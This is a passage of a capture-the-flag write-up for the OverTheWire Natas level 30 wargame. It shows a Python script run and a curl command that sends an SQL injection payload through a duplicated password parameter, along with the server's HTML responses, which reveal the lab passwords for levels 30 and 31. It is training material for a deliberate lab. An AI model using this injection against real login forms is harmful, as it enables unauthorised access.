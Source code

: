 ```
END

Method 1: python since can't modify parameters in most browsers
@trungdullc ➜ /workspaces/01noobHacker (main) $ python3 scripts/natas30.py ⌨️
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
win!<br>here is your result:<br>natas31m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 🔐
</div>
</body>
</html>

Method 2: curl
@trungdullc ➜ /workspaces/01noobHacker (main) $ curl -u natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH \
     -d "username=natas28&password='lol' or 1&password=4" \
     http://natas30.natas.labs.overthewire.org/index.pl ⌨️
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
```